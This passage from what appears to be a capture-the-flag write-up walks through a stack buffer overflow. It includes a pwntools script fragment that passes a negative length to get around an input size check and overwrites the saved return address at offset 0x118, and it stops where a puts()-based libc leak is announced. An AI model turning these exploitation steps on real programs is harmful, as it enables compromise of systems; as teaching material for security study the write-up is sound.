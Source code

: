 ![info-frame.png](images/info-frame.png)

So offset is `0x118`. Let's update the script to make it enter one more time and we will check at the third `Length of input`:

```python
# First time use to leak exe address as script above
# Second time
p.sendlineafter(b'input: ', b'127')
p.sendline(b'B'*(0x80-2))

# Third time
p.sendlineafter(b'input: ', b'-1')
payload = b'A'*0x118
payload += b'B'*8             # Check if saved rip or not
payload = payload.ljust(0x978, b'A')
p.sendline(payload)
```

And we can see that offset is correct:

![check-offset.png](images/check-offset.png)

So we will update script to leak the address of puts() and we can get the libc. The payload above change as following:
